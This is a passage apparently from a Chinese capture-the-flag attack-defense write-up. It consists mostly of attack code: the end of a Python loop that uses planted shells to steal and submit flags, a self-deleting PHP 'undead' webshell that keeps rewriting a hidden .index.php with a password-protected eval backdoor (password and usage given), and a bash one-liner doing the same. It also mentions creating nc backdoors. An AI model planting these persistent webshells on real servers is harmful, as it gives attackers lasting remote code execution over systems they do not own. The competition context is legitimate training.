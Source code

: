 ```python
                    submit_flag(url1, teamtoken, flag)
                else:
                    print "[-]Can not get flag"
            else:
                print "shell 404"
        except:
            print url1 + "connect shell failed"
    		
    f.close()
    f1.close()

def timer(n):
    while True:
        flag()
        flag()
        flag()
        time.sleep(n)

timer(120)
```



### 不死马

常规不死马，先删除自身，不断生成 `.index.php` 文件

[![img](assets/20190207172500.png)](https://jlkl.github.io/2019/02/08/Web_13/20190207172500.png)

```php

ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = './.index.php';
$code = '<?php if(md5($_POST["pass"])=="3a50065e1709acc47ba0c9238294364f"){@eval($_POST[a]);} ?>';
//pass=Sn3rtf4ck 马儿用法：fuckyou.php?pass=Sn3rtf4ck&a=command
while (1){
	file_put_contents($file,$code);
	usleep(5000);
}

```



这里添加了一个密码 `pass` 防止别人借刀杀人，我们平时也可以编写自己的木马，别人就算拿到木马也不知道怎么利用，附上一句话木马的各种变形

http://www.secist.com/archives/1947.html

bash 命令不死马，效果也是不断生成 `.index.php` 文件，也可以使用命令不断创建 nc 后门



```
system('while true;do echo \'<?php  if(md5($_GET[pass])==\"3a50065e1709acc47ba0c9238294364f\"){@eval($_GET[a]);} ?>\' >fuck.php;sleep 0.1;done;');
```
